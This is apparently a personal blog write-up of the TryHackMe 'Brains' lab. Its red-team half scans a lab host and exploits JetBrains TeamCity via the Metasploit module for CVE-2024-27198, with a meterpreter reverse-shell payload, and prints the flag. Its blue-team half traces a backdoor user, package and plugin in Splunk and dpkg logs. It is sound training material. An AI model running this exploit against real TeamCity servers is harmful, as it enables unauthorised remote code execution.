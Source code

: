 ```yaml
---
title: "TryHackMe - Brains"
date: 2025-04-05 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [CVE-2024-27198, rce, jetbrains, metasploit, splunk, teamcity  ]

---
```

## Introduction

[This CTF](https://tryhackme.com/room/brains) is divided into two parts. In the first, we take on the role of an attacker compromising the server, while in the second, our task is to detect the intrusion as part of the blue team.

# Red: Exploit the Server ! 

## Reconnaissance

The initial phase of any reconnaissance involves conducting an Nmap scan to collect details about the target system. To achieve this, I executed the following command:

```console
$ nmap -sC -sV -A 10.10.247.49 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-05 13:23 EDT
Nmap scan report for 10.10.247.49
Host is up (0.075s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7f:73:d3:f6:1b:d2:a7:c2:2a:9b:02:99:4e:20:f3:c5 (RSA)
|   256 db:0a:4e:4b:11:b8:72:53:8a:d9:f2:f7:7f:fc:93:ff (ECDSA)
|_  256 8a:4a:06:11:8c:f9:a3:85:e2:a3:e2:ea:39:b1:83:2b (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Maintenance
50000/tcp open  http    Apache Tomcat (language: en)
|_http-title: TeamCity Maintenance &mdash; TeamCity
| http-methods: 
|_  Potentially risky methods: TRACE
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
I notice an open port 50000, which takes me to the TeamCity login page. Immediately, the version 2023.11.3 in use catches my eye.

![jetbrainversion](/images/brains/brainsteamcityversion.png)

I searched the internet to check if there were any exploits related to this version of JetBrains TeamCity and found the vulnerability [CVE-2024-27198](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/)

## Exploitation
I launch Metasploit.

```console
msf6 > search jetbrains

Matching Modules
================

   #  Name                                                      Disclosure Date  Rank       Check  Description
   -  ----                                                      ---------------  ----       -----  -----------
   0  auxiliary/scanner/teamcity/teamcity_login                 .                normal     No     JetBrains TeamCity Login Scanner
   1  exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793  2023-09-19       excellent  Yes    JetBrains TeamCity Unauthenticated Remote Code Execution
   2    \_ target: Windows                                      .                .          .      .
   3    \_ target: Linux                                        .                .          .      .
   4  exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198  2024-03-04       excellent  Yes    JetBrains TeamCity Unauthenticated Remote Code Execution
   5    \_ target: Java                                         .                .          .      .
   6    \_ target: Java Server Page                             .                .          .      .
   7    \_ target: Windows Command                              .                .          .      .
   8    \_ target: Linux Command                                .                .          .      .
   9    \_ target: Unix Command                                 .                .          .      .

```

I select the exploit that interests me and configure it accordingly.

```console
msf6 > use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > show options
```

I then run the exploit. Everything goes according to plan. With access now gained, I begin searching for the first flag.

```console
cd /home
ls
ubuntu
cd ubuntu
ls
config.log
flag.txt
cat flag.txt
THM{faa9bac345709b6620a6200b484c7594}

```

**FLAG : THM{faa9bac345709b6620a6200b484c7594}**

# Blue: Let's Investigate
"The IT department has provided us one of the servers which was compromised as a result of the attack. Our task as a Forensics Analyst is to examine the host and identify the attacker's footprints in the post-exploitation stage."
## Investigation

**1. What is the name of the backdoor user which was created on the server after exploitation?**

To identify a newly created user account that may have been added post-exploitation, I begin by narrowing the scope of my search to specific parameters.
The first step is to set the **index to auth_logs**, as it directly relates to authentication activity.

![splunka](/images/brains/brainssplunka.png)

Next, I refine the search by filtering on key fields relevant to user authentication and system access events.

![splunkb](/images/brains/brainssplunkb.jpg)

Using this approach, and by focusing on the **name** field, I quickly identify a suspicious user with a conspicuous and alarming username: **eviluser**.

![eviluser](/images/brains/brainsquestion1.png)


**2. What is the name of the malicious-looking package installed on the server?**

I need to search the file **/var/log/dpkg.log**, which is the package management log used on Debian-based systems (e.g., Ubuntu, Kali Linux). This log is generated by the **dpkg tool**, which is responsible for installing, removing, and managing .deb packages.

The package was likely installed immediately after the user account was created, so I set a time range during which this could have occurred. I then proceed to search for the installed packages in **dpkg.log** within that timeframe.
![package](/images/brains/brainsquestion2.png)

As seen, the installed package is **datacollector**

**3. What is the name of the plugin installed on the server after successful exploitation?**

Having previously executed the exploit as a red team, I know that the vulnerability I exploited relates to **TeamCity**. I now begin searching through the TeamCity logs. Immediately, an unusual package name catches my eye.

![plugin](/images/brains/brainsquestion3.png)